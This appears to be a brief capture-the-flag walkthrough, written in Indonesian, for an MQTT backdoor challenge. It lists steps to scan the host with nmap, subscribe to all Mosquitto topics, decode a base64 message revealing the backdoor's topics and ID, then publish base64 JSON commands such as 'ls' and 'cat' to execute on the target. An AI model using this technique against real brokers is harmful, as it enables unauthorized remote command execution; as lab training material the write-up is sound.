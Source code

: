 1. nmap in ip nya -> ada mosquitto mosqito gitu -> download mosquitto_clients dulu
2. mosquitto_sub -h [ip] -t '#' -v -> cek response ada yg di base64 in -> decode ada pub sub topic nya
3. {"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"} -> command ada cmd
4. mosquitto_sub -t '[pub topic nya]' -h [ip] -> yang satunya mosquitto_pub -t '[sub]' -h [ip] -m 'message'
5. nah nanti ada error pertamanya ->  
Invalid message format.
Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
6. tinggal sesuain dah id sama command nya :
{id: id awal tadi, cmd: CMD karena ada ter register, arg: ls misalnya}
7. dah tinggal cat aja file nya sih
